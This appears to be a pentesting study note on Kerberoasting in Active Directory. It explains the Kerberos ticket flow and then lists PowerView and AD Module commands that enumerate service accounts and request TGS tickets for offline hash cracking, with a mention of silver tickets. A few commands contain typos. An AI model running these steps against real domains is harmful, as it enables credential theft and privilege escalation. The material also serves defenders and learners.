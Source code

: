 # Domain Privilege Escalation - Kerberoasting

Kerberoasting isn't an exploit or an attack it's abusing feature of windows for authenticating users in AD , 

## Steps in Kerberos

- User logs on with username & password.

- Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC (Key Distribution Centre also known as Domain Controller) as an authenticator in the authentication ticket (TGT) request  Authenitcation Service Request (AS-REQ).  The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates Ticket-Granting Ticket (TGT).

- The TGT is encrypted, signed, & delivered to the user (AS-REP). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.

- **The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS-REQ). The DC opens the TGT & validates PAC checksum . If the DC can open the ticket & the checksum check out, `TGT = valid`. The data in the TGT is effectively copied to create the TGS ticket.**

- **The TGS is encrypted using the target service accounts’s NTLM password hash and sent to the user (TGS-REP).**

- The user connects to the server hosting the service on the appropriate port & presents the TGS Application Request (AP-REQ). The service opens the TGS ticket using its NTLM password hash.

- Optional mutual authentication is done by service that the user provides TGS ticket to

## Kerberoasting 

Ticket Granting Service `TGS` has a server portion which is encrypted with service account's NTLM hash , we can request a TGS for a particular service when we want to connect to it and then cracking the hash , service accounts are usually ignored as passwords aren't changed and they might have some privileges. This can be used to create silver tickets. 

In order to do this we need to have a valid domain user and there must be a SPN attached to a user (service account)

## PowerView commands

### Finding usser accounts used as a service account

```
Get-NetUser -SPN
```

### Request a TGS
```
Request -SPNTicket
```

## AD Module

### Finding usser accounts used as a service account

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

### Request a TGS
```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Toekns.KerberosRequestorSecurityToken -ArgumentList "MSSQLSVC/computername.domainname"
```

